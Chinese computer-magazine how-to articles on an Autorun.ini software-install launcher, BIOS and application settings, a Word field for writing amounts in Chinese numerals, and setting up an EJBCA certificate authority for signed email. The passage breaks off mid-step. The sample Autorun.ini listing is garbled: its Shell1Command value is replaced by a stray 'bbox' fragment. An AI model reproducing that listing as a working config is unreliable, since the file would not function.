为了安装软件更方便，很多人会将经常使用的软件安装包备份到硬盘某个分区的固定目录。于是，问题也就来了——安装软件时得双击鼠标N次进入某个软件安装包所在的目录，才能执行软件的安装工作，这实在是有点麻烦。怎样才能让软件的安装更快键呢？笨笨熊软件通用启动程序（以下简称通用启动程序）就是解决这个问题的好帮手，利用它，我们可以很方便地制作出一个程序安装菜单。安装程序时，只需单击程序安装菜单中的某个选项，就可以启动与之对应的软件安装包了。

◆文/闫华礼

### 一、效果预览及说明

先下载软件通用启动程序（软件给你了，地址自己加呀）并将其解压到硬盘的任意位置（如E盘根目录下），这时我们就会发现E盘根目录下多出了两个文件——Autorun.exe和Autorun.ini，接着双击运行“Autorun.exe”，其界面如图1所示，在这个窗口中，大家会发现只有“浏览本光盘”一个菜单选项。那么，怎样在这个窗口添加其它菜单选项呢？方法很简单，我们只需对Autorun.ini略加修改，就可以了。因此，我们先来了解一下Autorun.ini的结构，以方便对其进行修改添加其它的菜单选项。


用记事本打开Autorun.ini，大家会发现它包含有“[Setup]”和“[MainMenu]”两个字段（如图2），每个字段下面有若干小节，其具体含义如下：

```
[Setup]
Title=软件安装工具箱
Height=500
Width=600
ButtonHeight=30
ButtonFontName=宋体
ButtonFontSize=15

[MainMenu]
Title=软件安装工具箱主菜单
ShellCount=1
Shell1Caption=浏览本光盘
Shell1Command=",
            "bbox": [0.10
```

[Setup]字段：
A处等号后边文字的含义是定义图1窗口中的标题，B处等号后边文字的含义是定义图1窗口的高度和宽度，[Setup]字段剩余三个小节等号后边文字的含义是定义图1窗口中按钮的高度、字体和字体的尺寸。
[MainMenu]字段：
C处等号后边文字的含义是定义图1，A处的菜单栏标题，D处等号后边数字的含义是定义图1窗口中菜单选项的总个数，E处等号后边文字的含义是定义菜单选项的具体文字（如图1，B处），F处等号后边文字的含义是当我们单击图1窗口中的菜单选项“浏览本光盘”时所执行的命令。

### 二、添加菜单选项

现在，相信大家对配置文件Autorun.ini的结构已经有了一个比较清晰的了解了。下边，笔者就以在图1所示的窗口中添加一个安装SnagIt的菜单选项为例，介绍一下其它菜单选项的添加。

第一步：将SnagIt程序安装包复制到“E:\软件”目录下，然后用记事本打开Autorun.ini，并将[MainMenu]字段ShellCount等号后边的1修改为2（菜单选项由原来的一个增加到两个了），接着复制“Shell1Caption=浏览本光盘 Shell1Command=\”，最后在[MainMenu]最后一行的末尾回车并执行粘贴操作。

第二步：先把倒数第一、二行中的“Shell”字符串后边的1替换为2（ShellCount等号后边的自然数），接着将“Shell1Caption=”后边的文字替换为所要安装的程序包的名称，如“安装SnagIt截图工具”（不包括外侧引号，下同）；再将“Shell1Command=”后边的内容替换为SnagIt程序安装包所在的具体路径，如“E:\软件\SnagIt.exe”，最后退出Autorun.ini并保存对其所做的修改。

经过以上步骤的操作，我们就已经完成了菜单选项“安装SnagIt截图工具”的添加，双击运行Autorun.exe，就可以看到最终的效果了（如图3），单击图3窗口中的“安装SnagIt截图工具”选项，就可以运行SnagIt程序安装包，执行程序的安装工作了。当然，大家也可以举一反三，仿照第一、二步的操作，通过修改Autorun.ini，添加安装其它程序的菜单选项。



- 小提示
- 1.大家可以将“MainMenu”字段中的“浏览本光盘”修改为“浏览软件安装包所在目录”，最后一行Shell2Command等号后边的内容替换为“E:\软件”，这样运行Autorun.exe时，我们就可以通过单击“浏览软件安装包所在目录”菜单选项来直接打开软件安装包所在的目录了。
- 2.为了让通用启动程序的窗口界面更加个性化，大家可以根据前边的介绍修改[Setup]字段下各小节等号后边的内容。
- 3.建议大家在桌面创建一个Autorun.exe的快捷方式，以使安装程序的操作变得更方便。

## 默认并不是最好——向常规思维挑战

### 一、常见硬件

BIOS有时设置有问题时，往往很多“高手”会叫我们通过默认法来解决问题。不过，有时并不尽然。同时，现在硬件的发展也很快，因此我们往往不能使用“默认值”，要突破常规。

#### 1. 设置好端口方式 解决打印机问题

笔者在一台机器上安装一款打印机（已经很老了，竟然是LPT口的），打印总是提示“打印机没纸，过5秒钟后Windows会自动重试”信息，无法打印。但这台打印机在其他的机器上是完全正常的，笔者感到非常奇怪，后经过了N次的重新安装驱动程序仍不能够解决。开始怀疑机器的并口损坏，但切换至DOS下能够照常打印。在山穷水尽的情况下，笔者按下Ctrl+Alt+Del三键，重新启动机器，再按下Del键，进入CMOS设置，将On Board Parallel Port由Normal方式设置为ECP+EPP方式，再次启动Windows，Windows提示发现新硬件，插入安装光盘，完成并口的安装，再打开打印机打印时，一切正常。

#### 2. 关掉无关的设备 可以提升速度

现在很多机器上已经没有了COM口等，我们极有必要将其在BIOS中关闭掉，这样可以加速。另外，如果你安装有外置的显卡、声卡和网卡，则一定要在BIOS将板载的关闭掉，这样往往可以让新安装的外置的显卡、声卡和网卡更好地发挥作用。

#### 3. 经常更新固件

BIOS固件往往也可以升级，就像软件一样，好好将这些固件升级，可以提升硬件的稳定性和性能。不过，在刷新主板的BIOS时，要观察主板上有没有BIOS写保护开关或跳线，如果有，将其设置为允许写入BIOS项。
运行刷新工具时（如AwdFlash或AMIFLASH），屏幕显示当前的BIOS信息，输入要更新的文件名及位置，注意一定要带上后缀名准确输入。在提示是否需要保存旧BIOS时，一般保存，以免升级失败后可以重新恢复。一定要等到刷新成功的消息出现后才可以重新启动电脑。
现在一些硬件已经有Windows下的刷新工具，如果可能，还是建议你在Windows下刷新。相对来说，比较简单。不过无论是在Windows下还是在DOS下执行刷新过程，都必须保证下载得到的固件程序版本与你的硬件型号相匹配。

> 小提示
> 现在计算机外设发展日新月异，有的设备必须在BIOS中作一些相应设置，才能够正确安装驱动程序并使用。这一点在有些外设的产品说明书上有说明，由此可见，默认的BIOS并不是最好的。

使用电脑，我们经常会听到“默认”这个词。而且也经常听说当遇到问题时，把它们恢复到默认值即可解决问题。“默认”真的那么好？其实，有时未必尽然，我们在安装一些硬件或软件后，有必要打破“默认思维”，这样才能够真正地解决问题，并让它们更高效地为我们服务。

#### （2）其他设备的刷新

现在Modem、路由器、显卡、声卡、光驱、刻录光驱、网卡、MP3、MP4、智能手机等都可以刷新固件，刷新方法与显卡的差不多，参阅说明书，然后在纯DOS下使用相应的工具刷新即可。

### 二、Maxthon下载

Maxthon是非常流行的浏览器，但先前其中的下载功能却很弱。后来虽然添加了高速下载功能，但是默认情况下它并没有打开。我们可以启动Maxthon2，然后选择“工具”→“傲游设置中心”，单击“文件下载”项，在“下载管理器设置”下选中“傲游下载”（如图1）。再单击其右侧的“设置”链接，在打开窗口中单击“连接设置”标签，再取消“速度”下方的“禁用P2P(需要重新启动下载器)”项。接下来，一定要单击“应用”按钮保存设置。最后关闭Maxthon并重新启动之。



之后，在Maxthon2中浏览到喜欢的资源，直接单击就可以进行下载，而且速度很快。

### 三、WinRAR

尽管WinRAR的压缩率要较其他压缩软件高得多，但默认情况下，并没有让它发挥出压缩极限，我们完全可以让它的压缩率提高一个档次：启动WinRAR，选择“选项”→“设置”，打开“设置”窗口。单击“压缩”标签，单击“压缩配置文件”下的“创建默认配置”按钮。打开“设置默认压缩选项”设置窗口，选择“压缩文件格式”下的RAR单选按钮。再单击“压缩方式”下拉列表框，从中选择“最好”项目。然后勾选“创建固实压缩文件”和“测试压缩文件”复选框。接着，单击“确定”按钮两次保存设置。

经过上述设置后，在“资源管理器”中选中一文件，右击，选择WinRAR→“添加xxx.rar”命令即可保证生成的RAR非常小。

## 工具软件 SOLUTIONS

## 四、让迅雷识别更多的文件

默认情况下，迅雷能下载扩展名为.asf;.avi;.exe;.iso;.mp3;.mpeg;.mpg;.mpga;.ra;.rar;.rm;.rmvb;.tar;.wma;.wmp;.wmv;.mov;.zip;.3gp;.chm;.mdf;.torrent;.mp4的文件。不过，我们完全可以在迅雷中单击“工具”→“配置”，再单击“监视”项，勾选“监视剪贴板”复选框，并在“监视文件”中删除掉不常用的格式，如.tar;.mov等，再添加相应的类型，如.ra;.swf等。

这样，迅雷一旦检测到剪贴板中我们包含类型文件的URL，则会自动弹出窗口提示我们下载。

> 【小提示】如果要让迅雷随时监视剪贴板，最好让迅雷开机即自动启动，这样才能够使其一直驻留后台随时待命：在迅雷中单击“工具”→“配置”，再单击“常规”项，然后选中“开机自动启动迅雷”复选框。

## 五、让ACDSee图片质量更高 运行得更快

### 1. 提高JPG图像质量

默认情况下，ACDSee在把图片转换为JPG时，只会使用65％的质量，使得转换后的图片不太清楚。不过，我们可以在ACDSee中选中欲转换文件，再选择“工具”→“格式转换”，在打开的窗口中选择JPG格式，再单击“格式设置”按钮（如图2）。打开“JPEG 选项”设置窗口，用鼠标拖动“图像质量”下的滑杆到最右边，设置JPG的质量为100％，再勾选“将这些设置保存为默认值”，按下“确定”按钮返回到转换窗口。以后即可保证转换后的JPG文件质量是最高的。



### 2. 让TIF分辨率再高一些

在出版工作中，经常要把图像转换为TIF格式的图片。但默认情况下，ACDSee在把图片转换为TIF时，只会使用96DPI的分辨率，转换后的图片显然不符合我们的印刷要求。但我们可以同样在ACDSee中选中欲转换文件，选择“工具”→“格式转换”，在打开的窗口中选择TIF格式，再单击“格式设置”按钮，打开设置窗口，设置水平和垂直分辨率分别为300，再勾选“将这些设置保存为默认值”，按下“确定”按钮返回到转换窗口。以后即可保证转换后的TIF文件采用我们自己的分辨率。

### 3. 去除不必要插件

我们知道，ACDSee从3.x开始就已经支持插件。默认情况下，ACDSee会安装所有插件，这使得ACDSee的运行速度很慢。其实，很多的插件我们根本就用不到，这时我们可以选择“工具”→“插件”→“插件设置”，再在打开的窗口中选择去除相应插件前的小钩即可。

> 【小提示】在ACDSee中插件分为几类，大家只要选择相应标签，其下的插件就会出现，如果不需要某类插件，只要去除前面的小钩即可。

## 六、设置Word更适合中国人

用Word XP建立的文件的默认页面是A4大小，即宽210毫米、高297毫米，但是有时由于工作的需要，我们不希望用A4大小的纸张，这样每次都必须打开“页面设置”对话框进行设置。同时，Word XP中默认生成的文档文件是不首行缩进的，使用手工调整它们的缩进，非常麻烦，但我们完全可以自行来设置。

### 1. 设置Word默认页面大小

启动Word，再选择“文件”→“页面设置”，调出页面设置对话框(如图3)，将页面大小及上下左右边距设置自己所需的值。接着，单击窗口中的“默认”按钮，再接受一下警告信息。以后使用Word将会使用我们默认的大小。



### 2. 让Word首行缩进

中国人写文章时每一段都必须空出两格，可惜的是，Word默认并不是这样。这时，我们可以新建一个默认文档，单击“格式”→“段落”，在段落设置对话框中选择“缩进和间距”标签，点击“特殊格式”下拉框，选择“首行缩进”，并设置度量值为0.7厘米（如图4，相当于两个汉字字符），即设置每段自动缩进两格（中国人用中文的特色！）。

单击“文件”→“保存”命令，选择保存类型为文档模板文件，将它保存为c:\normal.dot文件。再进入C:\Documents and Settings\用户名\Application Data\Microsoft\Templates文件夹（此文件夹为隐藏文件夹，必须对文件夹选项进行设置才能够进入），将会看到在此文件夹中有一个normal.dot文件，删除之。再将c:\normal.dot文件拷贝到此文件夹下（即C:\Documents and Settings\用户名\Application Data\Microsoft\Templates文件夹）。



以后启动Word，这时新建的文件就会首行缩进，还会使用我们设置好的页面大小。

## 利用ASK域自动转换大写金额

对于财务人员来说，可能经常会涉及到小写金额、大写金额的问题，在输入小写金额之后，还需要同时输入对应的大写金额，这往往只能通过“插入→编号”来实现，对于不太熟悉大写金额的用户来说，显然是比较麻烦的。有没有办法实现自动转换呢？

这里，我们可以利用ASK域直接引用小写数据并自动转换为大写的金额。这里以Word 2007为例进行说明，具体步骤如下：

- 第1步：将光标定位于“收入为”的后面，切换到“插入”选项卡，单击“文本”功能组中的“文档部件”按钮，从下拉菜单中选择“域”，此时会打开“域”对话框，从左侧的“域名”列表中选择“ASK”域。接下来，你可以根据实际情况设置域属性，“提示”可以自由设置，“书签名称”建议使用英文或拼音字符，请同时勾选“对提示的默认反应”复选框，至于其后的数字可以设置为“12345”，其内容可以任意，确认之后会弹出一个对话框，直接确认即可。

> 小提示 ASK域可以提示用户指定书签文字，使用时要求在ASK域的后面插入一个REF域（插入用书签标记的文本），Word才会在该处显示所输入的信息，不过通常情况下REF域名可以被省略。

- 第2步：按下“Ctrl+F9”组合键，此时文档处会出现一对大括号的域标记，请在这里手工输入“XiaoXieJinE”，选中该域后按下F9功能键，即可得到ASK域的默认值，此处为“12345”。
- 第3步：将光标移到“大写：”的后面，按下“Ctrl+F9”组合键插入域标记，手工输入“=XiaoXieJinE\* CHINESENUM2”，这里的“\* CHINESENUM2”表示实现中文大写数字，然后按下F9功能键，即可得到“XiaoXieJinE”书签的中文大写金额，效果如图所示。

> 收入证明
宋巨强同志系我单位职工，2007年度收入为12345元（金额大写：壹万贰仟叁佰肆拾伍元），特此证明。
省 市检验检疫局

以后，每当我们需要更新小写金额数字和大写的中文金额时，只需要按下“Ctrl+A”选中所有内容，然后按下F9功能键，此时会弹出ASK域对话框，根据提示输入相应的小写金额数字，即可获得其对应的中文大写金额，感兴趣的朋友不妨一试。

## 七、让Excel后台保存文件

有没有想过让Excel自动保存你的电子数据表，以防意外事故引起工作成果丢失？默认情况下，Excel XP并没有做好这工作。不过，我们可以启动Excel，再选择“工具”→“选项”命令，并选择“选项”对话框中的“保存”标签，然后在“保存”选项卡中勾选“保存自动恢复信息”复选框，再在其中设置保存时间间隔即可。

## 八、SnagIt

### 1. 提升抓取图片分辨率

默认情况下，SnagIt只提供96DPI的分辨率。不过，我们可以启动SnagIt9，选中一个捕获方案，选择“捕获”→“筛选”→“图像分辨率”命令，在打开的“图像分辨率”设置窗口中取消“自动配置”复选框，然后在“分辨率（点/每英寸）”中输入自己的分辨大小值即可。

### 2. 让SnagIt能够抓取多区域

默认情况下，SnagIt并不提供多重窗口抓取功能。不过，我们可以启动SnagIt，选中一个捕获方案，选择“捕获”→“输入”→“多重区域”复选项。以后抓图时，相应窗口被一蓝色框框住，单击后，会把此窗口加入。然后再移动鼠标到另外窗口，相应窗口会被蓝色框住，完成后，右击鼠标，然后选择“完成”按钮即可抓取多重窗口。

## 九、让Foxmail更中国化

Foxmail尽管是中国人写的邮件客户端，但是它同样并不会自动缩进，并不符合中国人的习惯，不过我们可以自行设置。单击工具栏上的“撰写”按钮，并在“写邮件”窗口中点击“选项”菜单，选中“自动缩进”选项。以后写信时，敲入回车后，光标就会自动定位在两格后的位置，这样写起来会更加顺手一些，至少语文老师不会有意见了。

## EJBCA: 让数字证书也可以DIY

在古代巫术及神话中，我们经常会听到“符”这个名词。它是把一块竹劈成两片，双方各执一片，在需要的时候双方拼合验证，颇有点破镜重圆的味道，这也是“符合”这个词的由来。在网络技术日益发达的今天，这个原理也得到了广泛应用。比如，登录招商银行、建设银行或淘宝等安全要求较高的站点时，用户经常会被提示要输入数字证书，这就是“符”的具体应用。如数字证书使用了成对的“公共密钥”和“私有密钥”，双方各执一个，互不相知，但却可以进行非常有效的加密认证。由此，我们可能会想到：怎么才能拥有一张数字证书呢？的确，数字证书应用日益普及，尽管使用方法简单，但普通用户面临着许多使用难题。鉴于此，本专题从一个经典故事入手，介绍了一款实用小巧的免费CA系统EJBCA。这是一款源代码开放、功能齐全并易于安装配置的证书认证系统，用户可以从开源网站Sourceforge（http://sourceforge.net）下载。在完全DIY的基础上，通过简单实用的应用介绍，用户可以在网络银行、支付宝、电子商务等场合中，逐步掌握数字证书的使用方法，轻松领略加解密世界的奥妙！

◆文/彭文波

## 加密和解密基础知识

### 1. 从美女和帅哥之间的故事谈起

- (1) 明文和密文
在这个发送消息的过程中，Alice传送给Bob的消息称为明文，明文经过某种变换成为一种隐蔽的形式称为密文。试想，如果美女Alice给帅哥Bob发送的信息是明文，那么大家肯定都知道了。要保证二人的私密空间，Alice必须想法将发送的信息转换成密文。
- (2) 加密和解密
为了保证信息的安全性，Alice必须想方设法对信息采取一定的安全措施。这个对明文变换的过程称为加密。加密是指使用密码算法对数据作变换，使得只有密钥持有人才能解密数据以恢复面貌，主要目的是防止信息的非授权泄露。加密自然是必不可少的，可是帅哥Bob必须解密啊，否则美女发送给帅哥的信息就没什么意义了。加密的逆过程，即Bob从密文重新构建明文的过程称为解密。由此我们想到了金庸经典武侠小说中的“双剑合璧，天下无敌”。在信息安全领域，加密和解密的过程就组成了加密系统，而明文与密文则总称为报文。
- (3) 密钥（key）
在很多间谍影片中，我们常可以看到这样的情节，特工将一个密码箱用手铐和自己的手腕铐在一起。那么，密码箱中放置的是什么呢？多数情况下，这个箱子里面放的不是导弹发射密码，也不是化学公式，更不是入侵计划，而是用来解密的密钥。将这个情节引入Alice和Bob之间。在加密和解密系统中，密钥是一个用位（bit）来衡量的数值，它和加密算法一起生成特别的密文。为了保护自己的亲密爱人，Bob当然会对解密的密钥加倍珍惜、加倍保护了。需要注意的是，加密和解密算法的操作通常是在一组密钥控制下进行的，分别称为加密密钥和解密密钥，密码算法的安全性依赖于密钥的安全性。
- (4) 加密系统的组成
通过美女和帅哥之间的故事，我们可以知道，加密系统至少包括以下4个组成部分：待加密的报文，也称明文；加密后的报文，也称密文；加密、解密装置或算法；密钥。这也正是本文所要介绍的软件模型。

后来，Alice和Bob的故事像梁山伯和祝英台一样，得到了广泛流传，但是他们的爱情传递方式尚有一定难度。为了将高强度的加密产品普及到现实生活中，计算机专家们想了许多办法，公钥基础设施PKI（Public Key Infrastructure）就是目前应用十分广泛的一种加密系统。其最大优点在于使用了公钥加密技术，并且引入了具有公信力的第三方。在这种安全机制下，许许多多的情侣们就可以畅所欲言了。本文所介绍的EJBCA就是这样一个功能齐全、易于安装的证书认证系统。EJBCA由五部分组成：认证中心、注册机构、证书库、证书申请者和证书信任方。其中，认证中心、注册机构和证书库三部分是PKI的基本部分，证书申请者和证书信任方是参加网上交易的主体。由此可见，PKI就是一个现实生活中公安局的网络再现。

### 2. 轻松搞定EJBCA系统安装

上述系统功能均可在一系列的软件安装之后完全实现。万丈高楼平地起，安装EJBCA系统需要经过以下几个简单步骤。

#### (1) 下载以下软件

| 软件名称及版本 | 下载地址 |
|---|---|
| JDK1.6.0_9 | http://java.sun.com/ |
| JBOSS-4.2.2.GA | http://www.jboss.org |
| ejbca_3_6_1 | http://ejbca.sourceforge.net/download.htm |
| apache-ant-1.7.0 | http://apache.mirror.phpchina.com/ant/ |
| jce_policy-1_6_0 | http://java.sun.com/javase/downloads/index.jsp |

#### （2）设置环境变量

在Windows中，使用鼠标右键单击“我的电脑”，在菜单中选择“属性”，打开“高级”选项卡，然后点击“环境变量”按钮，弹出环境变量对话框。在“系统变量”栏中，单击“新建”按钮，在“变量名”后填入“JAVA_HOME”，填入变量值“D:\java\jdk1.6.0”。如图1所示。



采用类似的方法，设置以下的环境变量。其中，变量值中的“%”是通配符。设置完毕，按照表中地址安装JDK、EJBCA、JBOSS、ANT等软件。

| 变量名 | 变量值 |
|---|---|
| JAVA_HOME | D:\java\jdk1.6.0 |
| EJBCA_HOME | D:\ejbca |
| JBOSS_HOME | D:\ejbca\jboss-4.2.2 |
| ANT_HOME | D:\ejbca\apache-ant-1.7.0 |
| PATH | PATH;%JAVA_HOME%\BIN;%JBOSS_HOME%\BIN;%ANT_HOME%\bin; |
| CLASSPATH | .;%JAVA_HOME%\lib\dt.jar;%JAVA_HOME%\lib\tools.jar;%JAVA_HOME%\lib; |

安装过程中，由于内存处理任务较繁重，为了防止内存溢出错误，需要设置ANT_OPTS变量。可以设置环境变量：ANT_OPTS=-Xmx512m。

#### （3）安装软件并修改加密包

为了解决美国出口限制，还需要下载高强度加密包。安装之前，首先将jce高强度加密包解压缩，并覆盖到%JAVA_HOME%/jre/lib/security。

#### （4）初步生成部署文件ejbca.ear

在%EJBCA_HOME%目录下，运行命令：ant bootstrap。

#### （5）启动JBOSS并初始化CA系统

运行%JBOSS_HOME%/run.bat文件，重新打开一个窗口。同时，在%EJBCA_HOME%/下，运行以下命令：ant install，安装管理CA并初始化EJBCA系统。其中CN代表通用名，O代表组织，C代表国家。本例中，可以设置为：CN=CfanCA,O=Cfan,C=CN。其他参数按默认设置即可。如图2所示。



#### （6）重新部署整个系统

初始化安装完毕，按【Ctrl+C】快捷键停止JBOSS系统。在%EJBCA_HOME%目录下，运行命令：ant deploy。将重新部署整个系统，并用密钥库配置servlet容器。

#### （7）将%EJBCA_HOME%/p12/superadmin.p12证书导入浏览器

默认密码是ejbca。选择证书文件，并单击右键，在弹出的对话框中选择“安装PFX”，就会打开导入证书的对话框。如图3所示。



#### （8）进入管理界面

重新启动JBOSS。登录http://localhost:8080/ejbca/。点击左下方的“administrator”链接，如果可以进入管理员页面（证书提示），说明安装成功。其中，管理地址为：https://localhost:8443/ejbca/adminweb/index.jsp。进入管理页面后，分别单击左侧的“System Configuration (系统配置)”、“My Preferences (个人选项)”，在右侧的管理员首选项中，设置Web界面默认语言为“ZH”（中文）。如图4所示。



## 揭开数字证书的神秘面纱

### 1. EJBCA技术的产品——数字证书

在实际应用中，最直接的加密产品就是数字证书。通过招商银行申请网上支付功能的时候，很多读者朋友已经接触了数字证书，比如登陆http://www.cmbchina.com申请个人银行专业版的时候，首先需要安装的就是个人银行数字证书。作为一种比较成熟的安全产品，数字证书已经发展到一个较高的技术水平，它包含了许多个人的重要信息，如用户身份、公开密钥、有效期、授权信息等。

为什么需要数字证书呢？由于Internet电子商务系统技术使在网上购物的顾客能够极其方便轻松地获得商家和企业的信息，但同时也增加了某些敏感或有价值的数据被滥用的风险。

买方和卖方都在因特网上进行的一切金融交易运作都必须是真实可靠的，并且要使顾客、商家和企业等交易各方都具有绝对的信心，因而因特网（Internet）电子商务系统必须保证具有十分可靠的安全保密技术，也就是说，必须保证网络安全的四大要素，即信息传输的保密性、数据交换的完整性、发送信息的不可否认性、交易者身份的确定性。数字证书在网络中的使用模式如图5所示。

从证书的一般用途来看，数字证书可分为签名证书和加密证书。


## 安全防护 SOLUTIONS

证书。签名证书主要用于对用户信息进行签名，以保证信息的不可否认性；加密证书主要用于对用户传送信息进行加密，以保证信息的真实性和完整性。在上面的安装过程中，即产生了一个数字证书。在打开的网页中，选择浏览器中的“工具”，点击下拉菜单中的“Internet选项”，单击“内容”选项卡，选择其中的“证书”按钮，即可看到一张由电脑爱好者CfanCA颁发给超级管理员SuperAdmin的管理员证书。如图6所示。



在“证书的预期目的”区域，可以看到证书的使用范围：服务器验证，客户端验证，安全电子邮件等。单击“查看”按钮，还可以了解证书的详细信息。一般来说，X.509 V3版本的证书结构包含以下字段：

- （1）版本号：指定证书的版本(V1、V2或V3)。
- （2）序列号：由证书颁发者指定的本证书的唯一标识符，一般为随机不重复的数字序列码。
- （3）签名算法：签名算法标识符，指定本证书所使用的数字签名算法。
- （4）颁发者：证书颁发者的可识别名(DN)。
- （5）有效期：证书有效的时间段，规定起始和结束时间。
- （6）主题：证书拥有者的可识别名(DN)。
- （7）公钥：主体的公钥和算法标识符。
- （8）颁发者唯一标识符：证书颁发者唯一标识符。
- （9）主体唯一标识符：证书拥有者的唯一标识符。
- （10）扩展：可选的标准和专用扩展。

其中，字段（1）~（7）都必须指定，字段（8）~（10）是可选项。

### 2. 幕后面纱：了解数字证书的管理流程

由于CA中心是一个权威的第三方认证机构，它必须对所有证书的安全性、公正性负责。因此，数字证书的申请也必须经过严格的申请流程，这样才能体现CA中心的权威性、公正性。EJBCA申请流程如下：

### 第1步：用户资料审核
注册机构对用户资料进行审核，并根据证书级别不同，审核用户相关的资料与证书请求信息的一致性。

### 第2步：产生、验证和分发密钥
一般情况下，用户需要到RA（注册中心）去进行证书申请。在这里，RA是一个十分重要的代理审核机构，类似于下属单位的代理办事处。RA完成对用户的身份认证后，以签名数据的方式向CA提供用户的公钥和相关信息。然后，CA完成对公钥的测试并产生证书。

### 第3步：证书的发放
用户资料审核通过后，CA对用户信息和公钥进行签名，生成证书发布到服务器上，以供用户下载。用户提交申请表之后，利用受理点给的ID号与密码，获取自己的证书后，即表示用户接受证书，证书开始生效。

### 第4步：证书验证
在网络世界里，证书的持有人可以是个人用户、企事业单位、商家、银行用户，也可以是网络上的服务器、路由器等设备。归纳起来，这些证书持有者在开展某项具体业务时，可以进行数据加解密、数据签名和签名验证等操作。
在平时的申请流程及证书使用流程中，将会严格按照上述操作规范进行。这也反映了数字证书是管理制度和技术相结合的产物。当然，由于这里是在本地进行测试，一切手续可以暂时从简。而测试的意义在于：了解数字证书到底是怎么生成的。这样，当我们再次光临银行时，对于银行颁发给我们的数字证书就不会感到陌生了。

## 机密飞鸿：使用数字证书发送邮件和盖章

有了数字证书，现代版“罗密欧与朱丽叶”——Alice和Bob之间的爱情故事演绎就更加自如了。因为他们现在可以通过公正的第三方来保证信息的真实性、完整性和机密性。由于CA中心的管理流程十分严格，因此，申请数字证书时，用户必须首先到终端提交个人的相关信息。

### 1. 申请并安装个人数字证书

### 第1步：提交申请资料
现在，进入https://localhost:8443/ejbca/adminweb/index.jsp页面，单击左侧“RA功能”下面的“添加终端实体”。在出现的表单中，有用户名、密码、Email、通用名、组织部门、城市、省、国家等信息。按照系统规定的格式提示，输入相关数据即可。填写完毕，系统会出现“添加成功”的信息。填写相关信息时，一定要牢记该用户的用户名和密码。如图7所示。



> 使用Outlook Express发送邮件时，建议勾选“使用E-mail字段中的数据”。这样，在将来需要选择数字证书时，就可以直接通过Email地址匹配该证书。

### 第2步：登录证书下载页面
打开浏览器访问http://localhost:8080/ejbca，进入EJBCA的主页，这里显示了EJBCA的主要功能选择。包括：【证书申请注册】(Enroll)；【证书撤销列表】(Retrieve)；【证书查看及管理】(Administration)。

### 第3步：下载数字证书
现在，假设添加Cfantest已经成功，进入证书申请页面。选择其中的浏览器证书注册链接【Create Browser Certificate】（创建浏览器证书），进入申请页面。在这个界面中，会提示用户输入用户名和密码。输入Cfantest及其密码，即可进入数字证书下载页面，按照图中的列表选择浏览器提供的不同密钥机制即可。如图8所示。



### 第4步：安装并查看数字证书

选择某种加密算法后，单击【OK】按钮。安装过程中，系统会提示是否安装根证书。选择安装此证书，按照提示即可生成个人浏览器证书。在打开的网页中，选择浏览器中的“工具”，点击下拉菜单中的“Internet选项”，单击“内容”选项卡，选择其中的“证书”按钮，即可看到由Cfan颁发给Cfantest的浏览器证书。如图9所示。



### 2. 利用个人数字证书发送安全电子邮件

使用安全电子邮件证书，用户可以收发加密和数字签名邮件，保证电子邮件传输中的机密性、完整性和不可否认性，确保电子邮件通信各方身份的真实性。证书可以存储在硬盘、USB中。安全电子邮件利用公钥算法保证签名邮件不会被篡改，而加密邮件除了邮件接收者以外，任何人无法阅读其中的内容。需要注意的是，证书中的邮件地址必须同绑定的邮件帐号一致。这样就可以对自己的邮件签名和加密了。下面，通过一个存储在本地硬盘中的数字证书进行相关操作的演示。

### 第1步：在Outlook Express中设定邮件

打开Outlook Express，然后选择菜单中的“工具”菜单中的“帐户”选项，在弹出的“Internet帐户”对话框中，点击右边的“添加”按钮，选择“邮件”选项。在此向导中，输入用户的邮件显示姓名，点击“下一步”，输入电子邮件地址，系统会提示分别输入接收邮件服务器和发送邮件服务器的域名或IP地址，如：pop.tom.com，smtp.tom.com。继续点击“下一步”，系统会提示用户输入邮箱的帐号和密码，如果是TOM帐户，建议勾选“使用安全密码验证”。如图10所示。



### 第2步：导入数字证书

在Outlook Express中，单击“工具”菜单下的“选项”，选择“安全”选项卡。在这个界面中，单击右下方的“数字标识”按钮，在弹出的“证书”对话框中，打开“导入”按钮，导入匹配的数字证书文件。如图11所示。

### 第3步：在Outlook Express中设置邮箱与数字证书的绑定



发送数字签名邮件时，需要将邮件地址和数字证书进行绑定。在Outlook Express中，单击菜单中的“工具”，选择“帐号”，选取“邮件”选项卡中的用于发送安全电子邮件的邮件帐号。然后，单击“属性”，选择上面的“安全”标签，可以看到“签署证书”和“加密首选项”两栏。在“签名证书”项后，点击“选择”按钮，即可看到相应的签名证书。选择加密数字证书，点击“确定”完成邮箱与证书的绑定。确定之后，完成Outlook Express的安全数字证书配置工作，现在就可以准备发送签名或加密的电子邮件了。如图12所示。



### 第4步：获得接收方的数字标识

发送签名或加密邮件前，必须先获得接收方的数字标识，可以首先让接收方发一份签名邮件，以便获取对方的数字标识。打开Outlook Express，查看签名过的电子邮件信息。单击“文件”菜单下的“属性”选项，在弹出的对话框中选择“安全”选项卡，打开“查看证书”按钮，然后点击“添加到通讯簿”即可。

### 第5步：发送签名和加密的电子邮件

启动Outlook Express 6.0，点击“新邮件”，撰写新邮件。同时选中右上方的“签名”、“加密”选项。点击“发送”，签名邮件发送成功。如图13所示。



当收件人收到并打开有数字签名的邮件时，将看到数字签名邮件的提示信息，按“继续”按钮后，才可阅读到该邮件的内容。若邮件在传输过程中被他人篡改或发信人的数字证书有问题，将出现“安全警告”提示。收到邮件后，可以看到邮件的右边中间有一个小图标，点击它，可以看到相关的数字证书信息，包括把查看的相关信息及发信人的数字证书添加到自己的通讯簿。发送加密邮件的方法与发送签名邮件的方法类似。

### 3. 使用自己的数字证书给公文“盖章”

随着办公自动化技术的日益普及，人们对文档的安全性、真实性的要求也不断提高。在网上招标或者签订电子合同中，如何保证传送的公文不被篡改？如何确认发文者的身份？如何控制审批者的权限？现在，这些问题可以通过电子签名技术得到解决。但是，用自己的数字证书来“盖章”，很多用户可能会惊讶不已，可能吗？答案是肯定的，有了EJBCA生成的数字证书，再加上一款免费的电子签章软件，普通的菜鸟用户也可以达到这个目的。当文档中途被黑客篡改时，我们可以通过数字证书来验证其真实性。

- 1.  **第1步：下载软件**
要实现签章功能，可以使用金格电子签名印章软件iSignature。这是一款免费软件，它采用信息加密和数据压缩处理技术，软件可以自动嵌入到Word里，用来实现印章或签名。软件下载地址为：http://www.goldgrid.com。用户也可以到“天空软件站”（http://www.skycn.com）等下载该软件的普及版。登陆上述站点后，输入相关的信息，选择“iSignature For Office电子签章”，就可以下载软件了。
- 2.  **第2步：制作个性化的电子公章**
